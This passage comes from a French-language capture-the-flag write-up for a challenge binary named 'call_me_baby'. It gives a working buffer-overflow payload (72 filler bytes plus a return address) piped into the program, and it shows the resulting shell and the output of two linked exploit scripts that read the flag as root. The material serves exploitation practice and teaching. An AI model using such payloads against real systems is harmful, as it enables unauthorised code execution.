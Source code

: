 On arrive bien au message de succès. Testons le payload directement sur l'executable :

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*72+b"\xb0\x11\x40\x00"+b"\x00"*4)' ; tee) | ./call_me_baby 
Write your love letter: 
whoami
coucou
ls
README.md  call_me_baby  exploit1.py  exploit2.py
```

Le shell c'est bien lancé, le payload final est donc `"\x41"*72+"\xb0\x11\x40\x00"+"\x00"*4`.

# Exploit

De la même manière que le chall précedent, on utilise des scripts python pour se connecter, envoyer le payload, et interagir avec le shell.

## Exploit 1

[Script](./exploit1.py)

```bash
$ python3 exploit1.py 
b'Write your love letter: \n'
whoami
b'root\n'
ls
b'call_me_baby\ncall_me_baby.c\ncore\nflag.txt\n'
cat flag.txt
b'FLAG{C4ll1ng_b4by...}\n'
```

## Exploit 2

[Script](./exploit2.py)

```console
$ python3 exploit2.py 
b'Write your love letter: \n'
whoami
b'root\n'
ls
b'call_me_baby\ncall_me_baby.c\ncore\nflag.txt\n'
cat flag.txt
b'FLAG{C4ll1ng_b4by...}\n'
```
